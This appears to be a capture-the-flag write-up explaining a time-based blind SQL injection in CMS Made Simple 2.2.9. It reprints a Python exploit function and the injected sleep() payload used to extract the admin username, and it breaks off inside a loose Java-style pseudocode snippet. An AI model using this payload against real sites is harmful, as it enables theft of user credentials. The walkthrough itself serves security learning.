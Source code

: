 > **CMS Made Simple** version **2.2.9** is vulnerable to SQLi [SQL Injection], which can be exploited to extract sensitive information from the database. Additionally, there are other vulnerabilities affecting earlier versions of CMS Made Simple, such as RCE [Remote code execution] and XSS [Cross-site scripting] issues.
</div>

####
The *RCE* is based in authenticated user, so we need to have valid credentials, the other seem to have a better aproximation beacause **dump** the `user`, `password` and `salt`. Next we will explain how work this script. The most importar in all cases are the **username** and **password**.
####
We already now a hint, `/writeup` directory, so we will try execute this fill pointing to this directory. The script craft a **function** to dump the data:
####
```python
def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True
```
####
The payload look like this SQL query:
####
```sql
SELECT sleep(1) FROM cms_users WHERE username LIKE 0x{dictionary[i]}25 AND user_id LIKE 0x31--
```
####
Well, the first statement of the SQL query is very simple, the script is selecting a `sleep` of `1` second and is using the **cms_users** table. But what meaning the rest of the query? The `LIKE` command in SQL is used to compare the value of the column with anything. So in this case, the script is comparing the value of the column `username` with the value of the variable `db_name` and the value of the column `user_id` with the value of the variable `user_id`.
####
The `db_name` is a character string that is in the **dictionary**. The `user_id` is a number in this case is `1` beacause in all databases the first user usually be the **admin**. The `LIKE` command start comparing the first character, so is very similar to indicate this:
####
```java
db_name = "";
for(var x in dictionary) || for(int i = 0; i < dictionary.length; i++) {
    db_name += x || db_name += dictionary[i];
    if(username.startsWith(x)) || if(username.charAt(i) == db_name.charAt(i))

```